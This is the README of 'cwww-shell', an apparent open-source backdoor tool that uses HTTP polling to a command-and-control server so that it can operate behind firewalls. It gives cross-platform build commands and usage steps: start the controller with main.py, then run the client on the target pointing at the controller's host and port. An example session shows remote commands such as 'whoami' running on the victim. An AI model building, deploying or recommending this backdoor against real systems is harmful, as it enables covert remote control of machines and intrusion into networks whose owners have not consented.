 <h3 align="left">
    <img width="70%" src="data/logo.png">
</h3>

*There is no way to win without losing first*

[![Developer](https://img.shields.io/badge/developer-enty8080-blue.svg)](https://founder.entysec.com)
[![Language](https://img.shields.io/badge/language-C-grey.svg)](https://github.com/enty8080/cwww-shell)
[![Language](https://img.shields.io/badge/language-Python-blue.svg)](https://github.com/enty8080/cwww-shell)
[![Forks](https://img.shields.io/github/forks/enty8080/cwww-shell?style=flat&color=green)](https://github.com/enty8080/cwww-shell/forks)
[![Stars](https://img.shields.io/github/stars/enty8080/cwww-shell?style=flat&color=yellow)](https://github.com/enty8080/cwww-shell/stargazers)

A proof-of-concept of placing backdoors behind firewalls using HTTP communication with command & control server. This tool uses HTTP requests to fetch commands and return output to a control server.

## Building

```
make TARGET=<target>
```

**NOTE:** For *macOS / iOS* targets you are required to set `SDK` to the desired SDK path before running `make`. For example:

```
make TARGET=<target> SDK=<path>
```

You can find list of supported `TARGET` values for different platforms.

<details>
    <summary>Linux</summary><br>
    <code>aarch64-linux-musl</code><br>
    <code>armv5l-linux-musleabi</code><br>
    <code>i486-linux-musl</code><br>
    <code>x86_64-linux-musl</code><br>
    <code>powerpc-linux-muslsf</code><br>
    <code>powerpc64le-linux-musl</code><br>
    <code>mips-linux-muslsf</code><br>
    <code>mipsel-linux-muslsf</code><br>
    <code>mips64-linux-musl</code><br>
    <code>s390x-linux-musl</code><br>
    <br>
</details>

<details>
    <summary>Windows</summary><br>
    <code>x86_64-w64-mingw32</code><br>
    <code>x86_64-w64-mingw32</code><br>
    <br>
</details>

<details>
    <summary>macOS / iOS</summary><br>
    <code>arm-iphone-darwin</code><br>
    <code>aarch64-iphone-darwin</code><br>
    <code>i386-apple-darwin</code><br>
    <code>x86_64-apple-darwin</code><br>
    <code>aarch64-apple-darwin</code><br>
    <br>
</details>

## Usage

1. Execute `main.py <host> <port>` on command & control server
2. Execute `cwww http://<host>:<port>` on target system

**Example:**

```
Welcome to the cwww-shell v1.0 by Ivan Nikolskiy / enty8080

Introduction: Wait for your client to connect, examine it's output and then
              type in your commands to execute on client. You'll have to
              wait some time between commands. Use ";" for multiple commands.
              Trying to execute interactive commands may give you headache
              so beware. You also shouldn't try to view binary data too.
              "echo bla >> file", "cat >> file <<- EOF", sed etc. are your
              friends if you don't like using vi in a delayed line mode.
              To exit this program on any time without doing harm to either
              server or client just type "quit".


Waiting for connect ... connect from 127.0.0.1:50194

$ whoami
sent.


Waiting for connect ... connect from 127.0.0.1:50195

felix

Waiting for connect ... connect from 127.0.0.1:50197

$
```
